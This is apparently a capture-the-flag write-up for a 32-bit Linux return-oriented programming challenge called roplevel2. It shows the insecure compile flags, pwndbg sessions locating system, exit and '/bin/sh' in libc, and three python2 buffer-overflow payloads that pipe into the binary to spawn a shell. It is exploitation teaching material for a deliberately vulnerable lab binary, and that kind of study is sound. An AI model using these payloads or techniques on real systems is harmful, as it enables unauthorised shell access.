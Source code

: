 # REDEIGN ROPLEVEL2

### How to compile binary (disable ASLR):

`gcc roplevel2.c -o roplevel2 -fno-stack-protector -z execstack -m32 -no-pie -Wl,-z,norelro -mpreferred-stack-boundary=2`

### Analysis:

```
pwndbg> p exit
$1 = {<text variable, no debug info>} 0x8049060 <exit@plt>
pwndbg> p system
$2 = {<text variable, no debug info>} 0x8049050 <system@plt>
```

```
┌──(george93㉿kali)-[~/Desktop/Exploit-Challenges/rop/src]
└─$ strings -a -t x /usr/lib/i386-linux-gnu/libc-2.33.so | grep "/bin/sh"                                                                   
 18fb62 /bin/sh

┌──(george93㉿kali)-[~/Desktop/Exploit-Challenges/rop/src]
└─$ gdb-pwndbg roplevel2
Reading symbols from roplevel2...
(No debugging symbols found in roplevel2)
pwndbg: loaded 192 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> break main
Breakpoint 1 at 0x80491f0
pwndbg> r
Starting program: /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2 

Breakpoint 1, 0x080491f0 in main ()
...
...
...
pwndbg> info proc mappings
process 5091
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x8049000  0x804a000     0x1000     0x1000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x804a000  0x804b000     0x1000     0x2000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x804b000  0x804c000     0x1000     0x2000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	0xf7db9000 0xf7dd6000    0x1d000        0x0 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7dd6000 0xf7f2e000   0x158000    0x1d000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7f2e000 0xf7fa1000    0x73000   0x175000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa1000 0xf7fa2000     0x1000   0x1e8000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa2000 0xf7fa4000     0x2000   0x1e8000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa4000 0xf7fa6000     0x2000   0x1ea000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa6000 0xf7fad000     0x7000        0x0 
	0xf7fc3000 0xf7fc5000     0x2000        0x0 
	0xf7fc5000 0xf7fc9000     0x4000        0x0 [vvar]
	0xf7fc9000 0xf7fcb000     0x2000        0x0 [vdso]
	0xf7fcb000 0xf7fcc000     0x1000        0x0 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7fcc000 0xf7fee000    0x22000     0x1000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7fee000 0xf7ffb000     0xd000    0x23000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7ffb000 0xf7ffd000     0x2000    0x2f000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7ffd000 0xf7ffe000     0x1000    0x31000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
pwndbg> x/s 0xf7db9000+0x18fb62
0xf7f48b62:	"/bin/sh"
```

```
pwndbg> find &system,+99999999,"/bin/sh"
warning: Unable to access 16007 bytes of target memory at 0x8049050, halting search.
Pattern not found.
pwndbg> break main
Breakpoint 1 at 0x80491f0
pwndbg> c
The program is not being run.
pwndbg> r
Starting program: /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
...
...
...
pwndbg> find &system,+99999999,"/bin/sh"
0xf7f48b62
warning: Unable to access 16000 bytes of target memory at 0xf7faa5ea, halting search.
1 pattern found.
```

### Methodolody:

Find gadgets to return to a System Function

### Answer:

Using pure ret2libc:

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\x00\xdd\xdf\xf7\x60\x90\x04\x08\x62\x8b\xf4\xf7')"; cat) | ./roplevel2
```

Using gadget() function:

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\xda\x91\x04\x08\x00\xdd\xdf\xf7\x60\x90\x04\x08\x62\x8b\xf4\xf7')"; cat) | ./roplevel2
```

Using `ROPGadget --binary ./roplevel2` (`0x080492c2 : sub al, 0x24 ; ret`):

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\xc2\x92\x04\x08\x00\xdd\xdf\xf7\x60\x90\x04\x08\x62\x8b\xf4\xf7')"; cat) | ./roplevel2
```

### Notes:

Based on the design of this challenge, the gadget function is not suitable to solve the puzzle as x86 stores parameters to functions on the stack while Mach-O stores parameters to functions in lower registers. I have since edited the challenge to allow it to be exploitable on a Linux OS via the gadget function or finding gadgets within the binary itself as well :). Due to the nature of this exploit, you can even just use a generic ret2libc attack.

### References:

https://icyphox.sh/blog/rop-on-arm/

https://developer.arm.com/documentation/dui0068/b/Thumb-Instruction-Reference/Thumb-memory-access-instructions/PUSH-and-POP

https://developer.arm.com/documentation/dui0041/c/Babbfdih#
